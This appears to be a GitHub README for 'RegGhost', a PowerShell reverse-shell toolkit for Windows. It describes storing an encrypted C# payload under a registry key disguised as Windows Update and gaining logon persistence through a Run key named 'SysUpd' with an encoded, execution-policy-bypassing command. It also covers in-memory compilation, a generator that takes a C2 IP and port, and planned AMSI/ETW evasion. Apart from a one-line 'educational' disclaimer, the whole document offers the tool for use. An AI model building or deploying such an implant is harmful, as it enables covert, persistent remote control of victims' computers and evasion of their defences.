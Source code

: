 # RegGhost

![Phantom Key Logo](sandbox:/mnt/data/A_logo_for_a_software_or_cybersecurity_product_nam.png)

A compact, two-stage PowerShell toolkit designed for stealthy reverse shells on Windows. It leverages machine-specific encryption, in-memory execution, and registry-based persistence—no payload files remain on disk.

---

## 🛠️ Features

**1. Two-Stage Architecture**

* **Setup Stage** (`smaller_setup.ps1`):

  * Base64-encoded C# payload is XOR-encrypted with a BIOS-derived key and stored in `HKCU:\Software\WindowsUpdate\DataCache`.
  * Installs a single `Run`-key entry (`SysUpd`) pointing to an encoded PowerShell stub, ensuring execution at each user logon with no `.ps1` files on disk.
* **Execution Stage** (`small_execute.ps1`):

  * Reads, decrypts, and compiles the C# payload in memory via `Add-Type`.
  * Invokes `C_XXXXX::Start()` (customizable class name) to establish a persistent reverse shell loop.

**2. Dynamic, Host-Bound Encryption**

* Encryption key derived from `(Get-WmiObject Win32_BIOS).SerialNumber`, binding payload to the specific machine.
* XOR + Base64 obfuscation conceals plaintext payloads in the registry.

**3. In-Memory C# Compilation**

* Utilizes `Add-Type` to compile and load decrypted source at runtime, avoiding any disk I/O for the payload.

**4. Registry-Only Storage & Persistence**

* **Payload** stored as a string value under `HKCU:\Software\WindowsUpdate\DataCache`.
* **Persistence** via `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\SysUpd` running `powershell -EncodedCommand` stub.

**5. Minimal Footprint**

* No additional binaries; relies solely on native PowerShell and .NET.
* Build outputs organized into randomly-named phonetic folders (Alpha, Bravo, Charlie, etc.).

---

## 📂 Components

### 1. `smaller_setup.ps1`

```powershell
# Auto-generated one-liner:
$k=(gwmi win32_bios).serialnumber.trim(); ... sp HKCU:\Software\Microsoft\Windows\CurrentVersion\Run SysUpd "powershell -NoP -EP Bypass -Enc $enc"
```

* Decrypts and decodes the embedded Base64 C# payload.
* Stores ciphertext in the registry and installs persistence via Run key.

### 2. `small_execute.ps1`

```powershell
# Auto-generated one-liner:
$k=(gwmi win32_bios).serialnumber.trim(); ... [<YourClass>]::Start()
```

* Reads registry blob, decrypts, compiles payload in memory, and launches the reverse shell.

### 3. `generate_shell.py`

* Python CLI that builds both PS1 stubs with host/port injection, obfuscation, and encryption:

  ```bash
  python generate_shell.py -H <C2_IP> -P <PORT>
  ```
* Outputs a new folder named from the phonetic alphabet (Alpha, Bravo, …).

---

## ⚙️ Usage

1. **Generate Payload**

   ```bash
   python generate_shell.py -H 10.10.14.1 -P 4444
   ```

   * Reads `payload.cs`, injects obfuscated host/port, encrypts, and creates PS1 files in a new folder.

2. **Deploy on Target**

   ```powershell
   .\Alpha\smaller_setup.ps1
   ```

   * Installs encrypted payload and persistence without leaving any scripts on disk.

3. **Automatic Execution**

   * On next user logon, the Run-key stub auto-executes, decrypting and running the reverse shell.

4. **Manual Testing**

   ```powershell
   .\Alpha\small_execute.ps1
   ```

   * Useful for quick staging or validation without reboot.

---

## 🚧 Limitations & Future Enhancements

* **Stronger Encryption**: Replace XOR with AES-CBC and random IV for enhanced confidentiality.
* **Fallback Persistence**: Add Scheduled Tasks or WMI Event Subscriptions as fallback.
* **Evasion**: Integrate AMSI/ETW bypass techniques and code obfuscation (e.g. Invoke-Obfuscation).
* **Logging**: Implement silent error logging to Event Log or hidden file for reliable troubleshooting.

---

*⚠️ For educational and authorized red-team use only.*
